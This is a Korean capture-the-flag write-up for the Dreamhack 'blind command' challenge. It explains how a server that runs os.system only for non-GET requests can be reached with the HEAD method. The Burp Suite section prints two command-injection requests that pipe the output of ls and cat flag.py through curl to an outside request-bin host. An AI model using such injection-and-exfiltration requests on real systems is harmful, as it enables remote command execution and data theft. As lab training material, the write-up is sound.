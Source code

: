 ## 📍blind command

```
Read the flag file XD
```


![](Attachments/7E814FC8-CFF4-4D67-8FF6-0BAF0725AE57.png)

![](Attachments/3A5D69F6-5307-43B4-8303-0E3C91B67296.png)

`[cmd]` 부분을 그대로 출력한다.


#### 소스코드

![](Attachments/03D52CB1-EA39-4C7F-9518-F9BC0D2CA848.png)

GET 요청만 허락하면서 GET 요청이 아니어야 `os.system(cmd)` 함수가 실행되는 괴상한 코드이다.

OPTIONS 메소드로 요청을 보내보면
GET, HEAD, OPTIONS 메소드는 허용된다.
![](Attachments/BFA9628F-F98F-42A2-98EB-549D67BCEE1D.png)
![](Attachments/EE8B758B-43FF-4CD3-8879-497F78C28951.png)
![](Attachments/CD98C281-DA84-43DA-ABD9-16276683C344.png)

OPTIONS 메소드는 지원되는 메소드를 확인할 때만 사용하므로 남은 건 HEAD 뿐이다.
**HEAD** 메소드는 리소스를 GET으로 요청했을 때 응답으로 오는 헤더 부분만 요청하는 메소드이다.


#### Burp Suite
드림핵 툴즈에서 생성한 URL로 `ls` 커맨드를 실행하는 HEAD 요청을 보냈다.
```
HEAD /?cmd=curl%20https://euaavvk.request.dreamhack.games%20-d%20%22$(ls)%22 HTTP/1.1
```

![](Attachments/D7436335-FEE3-4136-B16B-2AB922C7878B.png)

`ls` 명령 결과가 나타난다.
`flag.py` 파일이 존재하는 것을 알 수 있다.

![](Attachments/2243164D-757D-4C8F-982B-3BAC0907681F.png)

`cat flag.py` 커맨드를 수행하는 요청을 전송한다.
```
HEAD /?cmd=curl%20https://euaavvk.request.dreamhack.games%20-d%20%22$(cat%20flag.py)%22 HTTP/1.1
```

![](Attachments/5F15C2A8-C9A2-4068-9E55-D99B74AE58E2.png)